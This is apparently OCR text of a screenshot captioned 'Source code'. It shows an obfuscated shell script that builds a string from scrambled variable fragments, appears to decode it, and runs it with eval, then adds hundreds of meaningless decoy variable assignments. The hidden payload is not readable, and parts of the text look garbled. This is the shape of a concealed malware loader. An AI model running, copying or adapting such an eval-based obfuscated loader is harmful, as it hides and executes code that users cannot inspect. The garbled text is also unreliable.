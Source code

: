 $eLoP$Mll$GHi$v6T$Re$eLoP$v6T$RzE$v6T|$v6T$H2o$O2h$LcV"$LcV"$LcV"$Edo"$LcV|$v6T$O2h$r$v6T|$v6T$Gi$x$eLoP$u18$x64$v6T$Re$sfT);eval "$x";GMZ=snx;llB=diL;pxn=skL;Syg=GFT;RaJ=zXK;ZKL=BSQ;XCH=tmb;eyL=TOc;Ime=EZW;TFM=mN;tUA=Ab;fnp=ch;FNp=pJ;JRk=Az;YXw=hu;Qde=tk;zmI=lH;MdB=kG;cRe=zm;ygE=Og;MrN=Wn;Rwc=UL;KRw=NX;AmN=nu;lUf=HN;HVY=od;pqW=bz;hzm=tv;vAz=ql;fVA=KK;WXS=HX;PRd=CDX;lwM=wEt;ZcX=rAB;Yta=Syw;hvo=gTx;mtU=YbQ;Ilo=unK;Ava=XiM;mET=pHp;fFk=Pno;XBK=taz;dtp=zbA;bMu=zKL;FPC=PwO;xXA=dwc;Alj=ylC;JQq=JPx;MUH=FcT;cvl=azu;HPj=sSJ;dsl=XvS;Hoq=nKA;AZD=sfK;JFc=NZK;eEE=DrT;ZhW=fMr;VBT=enR;poD=hwH;lLU=qkd;yTa=OEZ;ZpV=WQP;Jeg=Mwj;YGH=HdD;mKz=pLU;PNn=ako;scF=rtk;QTH=sHP;Eto=FIR;BlM=WAX;UHF=WBV;Fud=mEb;sGh=Zzy;lPW=SOK;mcu=ZDf;QdD=YZM;HcF=LzS;GNn=Hyn;cql=ioJ;LKm=DNv;TAH=FaF;VYt=ERc;vhF=xvU;tNq=Uzi;JaE=bgV;bpG=opJ;CsA=UQX;pGD=TXG;AZk=bTy;bId=bNE;yql=fVT;Xcy=BmA;UHz=jRf;UNz=KZk;PXl=Vsy;Stv=Sed;cyB=zLX;gGz=JJP;IyT=xSZ;Zdj=nVJ;yQZ=vVc;sHL=Vfg;Zro=zth;XPf=sFS;nQQ=dnd;SNh=eWO;fOZ=Xjc;fgB=rQS;UjE=cpS;xYk=qWB;koB=ZFE;oQQ=hSL;ufm=zwQ;mzC=UfF;gQl=SLT;wwc=Jcb;tDN=SNI;ZFg=atH;UlF=ajb;DaK=zqX;KFL=uPP;mjy=zbB;ofO=nbM;vfl=vdB;SDM=yQQ;AfY=mzE;IHi=AeT;oVK=WsK;XhO=hRC;pOA=ScU;bCh=FOX;rgF=qzX;zyy=hXg;utq=MGT;Lkd=CTs;Vlb=XYZ;Ziu=aFC;dgF=qOn;Bpe=yss;Xoc=NXh;dGV=AjA;Zux=APj;diU=LZO;Vzp=lBl;xDW=otu;wxh=LmE;jsJ=xnu;AuO=OCw;iZA=dLf;pmj=lwe;RIo=tLO;TcY=glu;EVQ=Bxb;hkK=RTP;GcY=FoO;TDT=VhE;iZG=wyh;FNH=Bmj;BJh=mAj;SCs=hOS;kkj=Dgb;une=TET;DWN=wEf;JZr=EEn;eev=vSC;Gcg=IFa;jkQ=FDn;uiO=zBO;JIM=vwW;GtR=lZX;WoV=mWR;bZm=gDj;XgT=spD;dfG=pHI;IjF=XxS;pWp=hMH;Ul=fIj;dD=mht;yw=cOO;Vw=kik;Zo=RGl;XT=hQB;CB=Ofi;mM=Dun;cN=Uyp;rL=yIY;eD=qYt;jB=nnI;Wf=not;Yv=Rqc;Yu=OgM;xZ=FzE;ec=jKM;gB=qoM;rZ=lDg;HY=BTw;LB=TJn;Tk=qDl;HY=nSN;kp=iUS;ThankYou="HaveNiceDay";
